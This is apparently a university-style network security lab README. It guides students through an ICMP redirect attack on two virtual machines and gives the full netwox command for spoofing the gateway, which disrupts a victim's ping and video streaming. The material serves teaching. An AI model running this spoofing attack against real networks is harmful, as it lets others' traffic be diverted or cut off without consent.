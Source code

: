 ## ICMP Redirect Attack

### Requirement

In this lab, you will disrupt a victim machine's ICMP traffic using the ICMP redirect attack; and then, using the same attack, you disrupt a victim's video streaming service.

### Setup

2 Linux VMs. VM1 as the victim; VM2 as the attacker. The 2 VMs do not need to be in the same network - however, this lab has only been tested when the two VMs are in the same network. The following is the IP addresses for the VMs used in this README.

| VM  |  IP Address   |   Role   |
|-----|---------------|----------|
| VM1 | 172.16.77.128 |  victim  |
| VM2 | 172.16.77.129 | attacker |

### Preparation steps:

This attack only requires one netwox command, let's prepare the command first. This command is: sudo netwox 86 --device "ens33" --filter "src host victim_ip_address" --gw "attacker_ip_address" --src-ip "trusted_gateway_ip_address" --code 1

what this command does is: the attacker, mimicking the default gateway, sends an icmp redirect message to tell the victim: hey, please, going forward, use the attacker's ip address as your new gateway.

1. if the attacker's network interface card is not named "ens33", then change "ens33" to the network interface card's name.
2. replace "victim_ip_address" with your victim's IP address.
3. replace "attacker_ip_address" with your attacker's IP address.
4. find "trusted_gateway_ip_address" with netstat -r command. Following is an example, run netstat -r on the victim VM.

```console
[02/14/22]seed@VM:~$ netstat -r
Kernel IP routing table
Destination     Gateway         Genmask         Flags   MSS Window  irtt Iface
default         172.16.77.2     0.0.0.0         UG        0 0          0 ens33
link-local      *               255.255.0.0     U         0 0          0 ens33
172.16.77.0     *               255.255.255.0   U         0 0          0 ens33
[02/14/22]seed@VM:~$ 
```

The above command says 172.16.77.2 is the default gateway, so that's the gateway the victim machine trusts. Therefore, let's assume the victim's ip address is 172.16.77.128, and the attacker's ip address is 172.16.77.129, then we should come up with this following command:

sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1

question: can you find out what "--code 1" means?

### Attack steps:

#### Part 1

1. victim, run: 

```console
$ ping www.google.com
```

make sure your ping command works and you do get responses from google, otherwise this lab makes no sense.

this screenshot shows ping works:

![alt text](lab-icmp-ping-works.png "ping works at first")

if ping works, press ctrl-c to stop the ping command and move on to step 2.

2. attacker, run that attack command: 

```console
$ sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1
```

![alt text](lab-icmp-attack-command.png "launch the attack")

3. victim, run: 

```console
$ ping www.google.com
```

this time it may still succeed, or at least you will still get some responses like this:

![alt text](lab-icmp-ping-partially-works.png "ping only gets some reponses")

4: attacker, press ctrl-c to stop the attack command.

5: victim, run: 

```console
$ ping www.google.com
```

this time it should fail, thus it proves the attack is successful:

![alt text](lab-icmp-ping-fails.png "ping fails")

#### Part 2

the next two steps attempt a new attack which disrupts the victim's video streaming service:

6: victim, open firefox, watch some youtube video.

7: attacker, run the exact same attack command as before: 

```console
$ sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1
```

if successful, victim won't be able to watch the youtude video. The following two screenshots show before pressing enter and after pressing enter (to execute the attacking command):

before pressing enter:

![alt text](lab-icmp-youtube-before-enter.png "before pressing enter")

after pressing enter - (**note: due to buffering effect, the video won't be stopped immediately, you can wait for a few second to maybe one minute):

![alt text](lab-icmp-youtube-after-enter.png "after pressing enter")

This second screenshot shows the attack is successful and this concludes this lab.
